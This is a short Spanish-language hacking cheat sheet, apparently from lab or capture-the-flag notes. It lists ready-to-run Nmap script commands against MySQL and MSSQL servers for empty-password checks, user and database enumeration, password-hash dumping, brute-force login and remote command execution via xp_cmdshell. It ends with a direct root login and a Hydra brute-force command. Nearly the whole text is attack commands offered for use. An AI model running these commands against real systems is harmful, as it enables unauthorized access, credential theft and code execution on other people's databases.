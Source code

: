 # Nmap

###### Para saber si podemos entrar sin contraseña:
`nmap 192.168.X.X -sV -p 3306 --script=mysql-empty-password`
###### Para ver información:
`nmap 192.168.X.X -sV -p 3306 --script=mysql-empty-info`
###### Usuarios
`nmap 192.168.X.X -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"`
###### Para ver bases de datos:
`nmap 192.168.X.X -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"`
###### Para ver directorios:
`nmap 192.168.X.X -sV -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"`
###### Para ver un archivo:
`nmap 192.168.X.X -sV -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"`
###### Para dumpear hashes:
`nmap 192.168.X.X -sV -p 3306 --script=mysql-dump-hashes --script-args="username='root',password=''"`

```java

```
## Puerto 1433 (Windows)
###### Info del sistema:
`nmap 192.168.X.X -p 1433 --script ms-sql-info`

`nmap 192.168.X.X -p 1433 --script ms-sql-ntlm-info --script-args msssql.instance-port=1433`
###### Fuerza bruta:
`nmap 192.168.X.X -p 1433 --script ms-sql-brute --script-args userdb=/users.txt,passdb=/pass.txt`
###### Saber si podemos entrar sin contraseña:
`nmap 192.168.X.X -p 1433 --script ms-sql-empty-password`
###### Dumpear toda la base de datos con credenciales:
`nmap 192.168.X.X -p 1433 --script ms-sql-empty-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt`
###### Dumpear hashes con unas credenciales:
`nmap 192.168.X.X -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria`
###### Ejecución remota de comandos (RCE) con credenciales:
`nmap 192.168.X.X -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="COMANDO"`
###### Leer un archivo:
`nmap 192.168.X.X -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"`

```java

```

# Conexión con usuario `root`

`mysql -u root -h 10.10.10.10`

# Hydra

`hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://10.10.10.10`

```java

```

